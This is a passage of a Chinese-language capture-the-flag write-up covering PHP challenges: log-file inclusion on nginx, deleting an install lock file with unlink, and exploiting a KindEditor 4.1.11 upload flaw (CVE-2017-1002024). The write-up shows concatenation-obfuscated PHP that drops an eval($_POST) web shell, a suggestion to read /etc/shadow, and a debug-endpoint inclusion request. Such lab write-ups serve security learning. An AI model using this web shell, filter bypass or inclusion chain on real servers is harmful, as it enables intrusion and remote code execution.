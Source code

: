 读一下/etc/shadow试试![](https://i.loli.net/2021/10/21/hBJ6KIomfA1zeTc.png)

可以尝试一下日志包含；用的是nginx，日志路径为：`/var/log/nginx/access.log`

unlink把lock.dat删掉就行：

```php
<?php unlink('/var/www/html/install/lock.dat')?>
```

![](https://i.loli.net/2021/10/21/jwDT38HNXeKzp6t.png)

后续一样

![](https://i.loli.net/2021/10/21/6bSgeI9pAdQhmsY.png)

还看到bit师傅的做法，直接cat 后台check.php的源码到txt里，查看即可



## 388 editor(CVE-2017-1002024/免杀马)

扫出`/debug`、`/alsckdfy/editor/`

`/debug`结果如下，调试结果会被写到日志中。猜测是文件包含后再写到日志里

![](https://i.loli.net/2021/10/21/CAxQWtR5OmhFe2j.png)

再看`/alsckdfy/editor/`

在js看到编辑器版本信息KindEditor 4.1.11，
搜一下知道有个漏洞（CVE-2017-1002024）Kindeditor \<=4.1.11 上传漏洞

![](https://i.loli.net/2021/10/21/eGj3cyNdAJlZvtF.png)

访问`/alsckdfy/editor/`，随便传一个php看看白名单

![](https://i.loli.net/2021/10/21/P9J2x6wItvM3DLV.png)

因为对代码也有过滤，拼接绕过，然后放在txt里上传

```php
<?php
$a = '<?ph'.'p ev'.'al($_PO'.'ST[1]);?>';
file_put_contents('/var/www/html/1.php',$a);
?>
```

上传拿路径
![](https://i.loli.net/2021/10/21/ujafJmMhCzEPByb.png)



然后到`/debug`调试写到日志里

```
/debug/?file=/var/www/html/alsckdfy/attached/file/20211021/20211021065810_79266.txt
```
